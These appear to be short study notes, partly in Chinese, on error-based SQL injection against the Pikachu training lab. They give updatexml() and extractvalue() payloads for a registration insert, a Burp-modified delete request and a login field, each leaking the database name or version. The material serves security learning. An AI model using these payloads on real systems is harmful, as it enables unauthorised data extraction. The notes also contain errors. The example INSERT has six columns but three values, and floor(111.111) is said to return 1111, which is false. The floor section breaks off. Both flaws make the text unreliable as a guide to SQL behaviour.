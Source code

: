 用户注册
http://localhost/pikachu/vul/sqli/sqli_iu/sqli_reg.php
注册就是insert

原始sql
insert into member(username, pw,sex,phone,email,addr)
values('', '', '');

payload is
avb' or updatexml(0x7e, concat('k', database()),0) or '

基于delete
修改BurpSuite包
将参数修改为
1 or updatexml(1, concat(0x7e, database()),0)


part2
extractvalue(xml_doc, xpath)
kobe' and extractvalue(0, concat(0x7e, version()))#


part3 floor
run 
select floor(111.111)
返回
1111

